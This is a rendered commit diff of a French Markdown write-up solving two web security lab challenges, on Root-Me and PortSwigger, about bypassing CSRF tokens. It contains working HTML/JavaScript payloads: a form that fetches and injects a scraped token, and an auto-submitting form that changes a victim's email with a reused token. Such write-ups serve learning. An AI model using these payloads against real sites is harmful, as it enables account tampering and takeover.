

Before and after one commit to deathfal/security-project, a Markdown page: challenges/challenges.md, the part around the change printed below. Shown: that part at 96% size. Drawn GitHub-style; pictures changed too: challenges/img/CSRF - Jeton contournement.png (added); blank space fills up the shorter version.

Commit message:
challenge 1,3,4,5,10

````diff
--- a/challenges/challenges.md
+++ b/challenges/challenges.md
@@ -25,3 +36,43 @@ Je me suis ensuite connecté à la page d'administration avec les identifiants t
 Pour valider le projet, il me suffisait simplement d'entrer le mot de passe de l'administrateur.
 
 <img src="img/PHP - Filters 3.png" alt="capture 5" width="400">
+
+# 3. CSRF - Contournement de jeton
+Link: https://www.root-me.org/fr/Challenges/Web-Client/CSRF-Contournement-de-jeton
+
+Pour contourner la protection, on utilise un script qui récupère la page de profil, extrait automatiquement le token CSRF puis le réinjecte dans un formulaire préparé avec mon pseudo et la case à cocher activée. Dès que la victime charge la page piégée, le formulaire est soumis avec un jeton valide obtenu.
+
+```html
+<form action="http://challenge01.root-me.org/web-client/ch23/?action=profile" method="post" name="csrf_form" enctype="multipart/form-data">
+	<input id="username" type="text" name="username" value="moi">
+	<input id="status" type="checkbox" name="status" checked>
+	<input id="token" type="hidden" name="token" value="">
+	<button type="submit">Submit</button>
+</form>
+<script>
+	const xhttp = new XMLHttpRequest();
+	xhttp.open('GET', 'http://challenge01.root-me.org/web-client/ch23/?action=profile', false);
+	xhttp.send();
+	const token = xhttp.responseText.match(/[a-f0-9]{32}/)?.[0] ?? '';
+	document.getElementById('token').value = token;
+	document.csrf_form.submit();
+</script>
+```
+
+<img src="img/CSRF - Jeton contournement.png" alt="capture 2" width="400">
+
+# 4. CSRF where token is not tied to user session
+Link: https://portswigger.net/web-security/csrf/lab-token-not-tied-to-user-session
+
+drLe token CSRF n'étant pas lié à la session, j'ai intercepté une requête de changement d'e-mail légitime avec un premier compte, récupéré la valeur du champ `csrf`, puis drop la requête. Après m'être connecté avec un autre compte, j'ai répété l'action et remplacé la valeur du token par celle enregistrée : le serveur a accepté la modification car il ne valide pas l'association token/session. J'ai encapsulé cette attaque dans un formulaire piégé.
+
+```html
+<form action="https://0a49009d0379721b8051d56d00ad00ef.web-security-academy.net/my-account/change-email" method="post">
+	<input type="hidden" name="email" value="modifmail@gmail.com">
+	<input type="hidden" name="csrf" value="gSsyPMk9wJTVy08hkRYStDibQDlZ2Krm">
+</form>
+<script>
+	document.forms[0].submit();
+</script>
+```
+
````
Also changed, not shown: other parts of challenges/challenges.md (+60 -1 lines), challenges/img/CSRF - Referer optional.png (added), challenges/img/CSRF - Token not tied session.png (added), challenges/img/File path traversal - Null byte bypass.png (added), challenges/img/SSTI - Unknown template exploit.png (added).
